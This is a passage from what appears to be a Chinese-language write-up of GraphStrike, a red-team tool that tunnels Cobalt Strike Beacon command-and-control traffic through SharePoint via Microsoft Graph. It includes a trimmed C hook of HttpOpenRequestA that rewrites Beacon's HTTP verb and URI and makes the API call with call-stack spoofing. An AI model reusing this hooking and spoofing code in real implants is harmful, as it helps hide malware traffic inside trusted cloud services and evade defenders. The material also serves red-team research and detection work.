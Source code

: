 这两个块执行类似的操作，都是通过使用前面讨论过的值来组合文件名，从而在 SharePoint 中创建新文件。使用 "MakeWebRequest "发送请求后，新创建文件的 SharePoint ID 将被解析，以用于 Beacon 的所有后续请求。firstGet "和 "firstPost "布尔值控制着这些代码块是否运行，并且在运行时从 TRUE 切换到 FALSE，这样对 HttpOpenRequestA\_Hook 的后续调用就不会导致创建额外的文件。

# 修改 API 调用参数和非 GraphStrike Beacon

本节内容简短，但却非常重要。我曾多次提到，AceLdr 实现的 IAT 挂钩功能使我们有能力调整和摆弄 Beacon 发送到挂钩 API 的参数。下面的代码片段再次来自 HttpOpenRequestA\_Hook 函数，从中可以看到这一功能的实现和影响：

```plain
SECTION( D ) HINTERNET HttpOpenRequestA_Hook( HINTERNET hInternet, 
                                                LPCSTR lpszVerb, 
                                                LPCSTR lpszObjectName, 
                                                LPCSTR lpszVersion, 
                                                LPCSTR lpszReferrer, 
                                                LPCSTR *lplpszAcceptTypes, 
                                                DWORD dwFlags, 
                                                DWORD_PTR dwContext )
{
    HINTERNET       hResult = INVALID_HANDLE_VALUE;

    ... Trimmed for Brevity ...

    // Only run the following if this is a GraphStrike Beacon
    if (pMemAddrs->graphStrike)

        // Determine whether this call to HttpOpenRequestA is for a http-get or http-post request
        if (pMemAddrs->Api.msvcrt.strcmp(lpszVerb, C_PTR ( OFFSET ( "GET" ) ) ) == 0)
            pMemAddrs->activeGet = TRUE;
        else
            pMemAddrs->activeGet = FALSE;

        ... Trimmed for Brevity ...

        // Set verb and uri to be used with HttpOpenRequest call.
        // Must be done here so that httpGetUri + httpPostUri are populated first
        if ( pMemAddrs->activeGet)
        {            
            verb = GET_VERB;
            uri = pMemAddrs->httpGetUri;
        }
        else
        {
            verb = PUT_VERB;
            uri = pMemAddrs->httpPostUri;
        }

        // Finally send request.
        hResult =  ( HINTERNET )SPOOF( pMemAddrs->Api.net.HttpOpenRequestA,
                                        pMemAddrs->Api.net.hNet, 
                                        pMemAddrs->Api.net.size, 
                                        hInternet, 
                                        verb, 
                                        uri, 
                                        C_PTR( lpszVersion ), 
                                        C_PTR( lpszReferrer ), 
                                        C_PTR( lplpszAcceptTypes ), 
                                        C_PTR( U_PTR( dwFlags ) ), 
                                        C_PTR( U_PTR( dwContext ) ) );
    }

    // If not a GraphStrike Beacon, make a normal call to HttpOpenRequestA
    else
```